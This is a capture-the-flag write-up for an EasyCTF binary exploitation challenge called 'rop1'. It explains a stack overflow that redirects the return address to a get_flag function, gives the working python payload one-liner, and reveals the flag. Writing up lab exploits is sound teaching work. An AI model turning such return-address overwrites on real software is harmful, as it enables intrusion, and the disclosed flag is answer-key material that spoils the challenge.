




# rop1

**Category:** Binary Exploitation
**Points:** 120
**Solves:** 374
**Description:**

Go to `/problems/rop1` on the shell server and tell me whats in flag.txt.

[File](rop1)

## Write-up







So we need just rewrtite return addres to get_flag(+8 for saved registers and -8 for text "EasyPWN\x00", I did it for beauty ;))

```
python -c 'print "EasyPWN\x00" + "A"*(64+8-8) + "\x46\x06\x40\x00\x00\x00\x00\x00"' | ./rop1
```



Flag is: **easyctf{r0ps_and_h0ps}**
